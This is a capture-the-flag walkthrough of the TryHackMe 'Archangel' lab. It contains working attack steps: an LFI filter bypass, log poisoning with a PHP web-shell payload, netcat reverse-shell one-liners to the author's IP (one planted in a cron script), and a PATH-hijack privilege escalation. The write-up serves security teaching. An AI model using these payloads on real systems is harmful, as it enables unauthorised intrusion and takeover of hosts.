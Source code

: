 # Archangel Room - TryHackMe


### Initial Port-scan
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/nmap.png)

- There is a webserver on port 80, so ill directory bruteforce to see if i can find anything interesting.

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_busting.png)

- Looking at the Directory scan, theres a /flags folder. I knew this was too easy, when i clicked on the link inside the file, it links to a youtube video "rick-rolled". I searched through a bunch of other directories but nothing stood out.
--------------
- At the top of the page of the main site, we we can see another hostname, which is one of the questions THM was asking for. 
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hostname.png)

- Now to be able to reach that site, we need to specify the address in our /etc/hosts file. Youll need sudo to edit it.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hosts.png)

- After that we can just put in the host-name in the url and it will take us to that site, because the hostname can be resolved to a IP now
- We found the first flag right at the front page of the new site.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/flag1.png)

----------
- Ok since this is a completely new site lets start directory bruteforcing again with fereoxbuster.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_newsite.png)

- So we found 2 folders: /Robots.txt and /test.php. Ill start with robots first.
- Inside the robots folder, its the other file we found thats disallowed. So lets take a look at /test.php

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/testbutton.png)
- As soon as i press the button on the  /test.php page. It sends a get request querying a file: mrrobot.php
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/test-file.png)

- At this point im trying for LFI vulnerabilities. I tried to transverse directories using ../../../../etc/passwd but there was some sort of filter. So i quickly googled LFI bypasses and came across this github page of some great bypasses. 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

### Testing for LFI
- I Tried many bypasses until i found the double slashes worked.  ..//..//..//..//..//..//..//..//etc//passwd
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/passwd.png)
- If we look at the source file using our LFI, we can find the second flag.
- I ran into some issues trying to display the contents with the double slashes ..// so i had to base64 encode it using this paylaod. Once you have the base64 string you can decode it wherever youd like.
- `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
--------------
- Now lets try to LFI the apache logs. 	/..//..//..//..//..//..//..//..//var//log//apache2//access.log
- Looks like we can, and we can see from the image its storing our user-agent "Mozilla...". This will be our attack vector
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/logs.png)
--------------
### RCE
- The user-agent is where we are going to put our payload
- `<?php system($_GET['cmd']); ?>` put this payload inside our user-agent, you can use curl, burpsuite, or whatever you prefer. Im using burpsuite for this example.
- to access the RCE you add `&cmd=` at the end of the URL. In this example im testing rce with `id`, but im also adding in a echo command with any string so i can easily find my results with a quick search directly on the page.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce_path.png)
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce.png)

- looks like everything works. Now for the reverse_shell.
- this will be our payload for our RCE to execute. (Make sure to start a netcat listener on your own IP and PORT that you specified in the payload. Mine will be on port 443)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.100.95 443 >/tmp/f` 
- Important to note, you might run into the issue where it takes you to google. You need to URL encode the payload, and specify the port the domain is on.
- `http://mafialive.thm:80/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var//log//apache2//access.log&cmd=m%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.100.95%209999%20%3E%2Ftmp%2Ff`

---------
- Now we have a shell. 
- To stabalize use `python3  -c   'import pty; pty.spawn("/bin/bash")'`


- While using linpeas to find ways to esculate privileges, theres an interesting script found in /opt.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hello_world.png)
- Doing a bit more enumeration, we also find the script is being run every minute by cron with the user archangle.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/cron.png)

- We have write permissions on the file too, so lets put in a reverse_shell just like we previously did. Also dont forget to start another nc listerner on a different port 
- echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.100.95 6666 >/tmp/f" > helloworld.sh
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/arc.png)


- WoooO!, now we have upgraded to the user archangel. Time for more enumeration.
- looking inside archangel's home directory, inside /secret theres the second flag. Also there is a binary file "backup", owned by root that we have read and execute permissions on. 
- cat'ing the binary we see its running a cp command
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/binary.png)


- So lets create a malicous file named "cp" and put it into our /tmp directory
- `touch /tmp/cp`
- cd into the /tmp directory and `echo "/bin/bash" > cp`
- Now all we need to do is modify our $PATH, then execute the backup file.
- `export PATH=/tmp:$PATH`
- now cd back to the directory with our backup file and run it ./backup
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/root.png)
- WOooOO! 
- GO into the root directory to find the last flag



